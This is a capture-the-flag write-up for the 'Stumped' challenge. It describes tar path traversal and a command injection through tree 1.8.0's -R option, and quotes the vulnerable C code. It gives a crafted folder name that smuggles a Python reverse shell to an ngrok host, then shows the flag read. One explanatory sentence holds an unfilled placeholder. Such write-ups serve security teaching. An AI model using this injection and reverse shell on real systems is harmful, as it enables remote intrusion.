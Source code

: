 # PWN: Stumped
solver: [N04M1st3r](https://github.com/N04M1st3r)  
writeup-writer: [L3d](https://github.com/imL3d)  

**Description:**
> Michael's computer science project shows the structure of tar files. It is using the tree command on the backend, and something just doesn't seem right...

**files (copy):** [app.py](files/app.py)  
**screenshot:** [homepage](images/stumpedhome.png)

In this challenge we receive a site (and it's code) that runs the unix [tree](https://linux.die.net/man/1/tree) command on an uploaded tar archive. We need to exploit this site and get user access.

## Solution 🌳
When uploading a tar archive to the site to extract, we can write to anywhere on our system via carefully naming our folders. For example, if we have an archive with the path in it: `../../../folder1/file1.txt` we can write into a folder called `folder1` that is 3 directories above us. This is due to INSERT EXPLOIT.  
Our first attempt of breaching this machine was to try and override some important file, in order to get and RCE or expose this machine to the internet. This was incredibly difficult since we didn't really have any information whatsoever on where this code was running from, or what with what privileges - so we abandoned the idea.  
  
After messing around a bit more with the site we noticed something about the text on it - it was powered via the `tree` command on version `1.8.0` - could it be that the version of tree is outdated and we can somehow exploit this???  
So, the search for the source code of this version began (or at least the release notes). Finding the entire source code was surprisingly difficult, but we managed to find it at the end -  [the source code](https://salsa.debian.org/debian/tree-packaging).  
  
 Looking at the changelog of the version that followed `1.8.0`:
 ```
  - -R option now recursively calls the emit_tree() function rather than using
 system() to re-call tree.  Also removes a TODO.
 ```
 BINGO! the `-R` option uses `system`, and we can exploit that to inject our OWN bash code.  
 This can be easily seen when looking at the code from the old version: 
 ```C
hcmd = xmalloc(sizeof(char) * (49 + strlen(host) + strlen(d) + strlen((*dir)->name)) + 10 + (2*strlen(path)));
sprintf(hcmd,"tree -n -H \"%s%s/%s\" -L %d -R -o \"%s/00Tree.html\" \"%s\"\n", host,d+1,(*dir)->name,Level+1,path,path);
system(hcmd);
``` 
  
In order to exploit this we need to name one of our inside folders in the archive in a special way, to include the code that we want to run on the server (we went with a python reverse shell in this case):  
```
In a tar folder, zip the following:

folder1->folder2->(injection folder)
injection folder name (the quotes are part of the name): ";python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.eu.ngrok.io",16642));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["x2fbinx2fsh","-i"]);' ;echo "
```
We we upload the tar archive with this folder we get a reverse shell, and then quickly after the flag🚩:
```
$ cat flag.txt
flag{n0t_5tump3d_4nym0r3!}
```
---
This was a creative challenge that reminded us about updating our versions and not letting strangers upload tar archives into our servers.  
Also props to  [N04M1st3r](https://github.com/N04M1st3r) for having the motivation to pull this one off ;)
  
![isitpwn.gif](images/isitpwn.gif)
